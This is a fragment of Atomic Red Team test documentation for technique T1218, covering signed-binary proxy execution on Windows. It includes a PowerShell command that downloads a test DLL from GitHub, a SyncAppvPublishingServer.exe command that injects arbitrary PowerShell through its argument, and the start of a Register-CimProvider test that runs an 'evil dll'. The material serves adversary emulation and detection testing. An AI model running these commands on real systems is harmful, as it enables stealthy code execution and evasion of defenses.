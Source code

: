 ##### Description: T1218.dll must exist on disk at specified location (#{dll_payload})

##### Check Prereq Commands:

```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/x64/T1218.dll" -OutFile "#{dll_payload}"
```

<br/>
<br/>

## Atomic Test #2 - SyncAppvPublishingServer - Execute arbitrary PowerShell code

Executes arbitrary PowerShell code using SyncAppvPublishingServer.exe. Requires Windows 10.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| powershell_code | PowerShell code to execute | string | Start-Process calc.exe|

#### Attack Commands: Run with `command_prompt`!

```cmd
SyncAppvPublishingServer.exe "n; #{powershell_code}"
```

<br/>
<br/>

## Atomic Test #3 - Register-CimProvider - Execute evil dll

Execute arbitrary dll. Requires at least Windows 8/2012. Also note this dll can be served up via SMB

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_payload | DLL to execute | Path | PathToAtomicsFolder&#92;T1218&#92;src&#92;Win32&#92;T1218-2.dll|
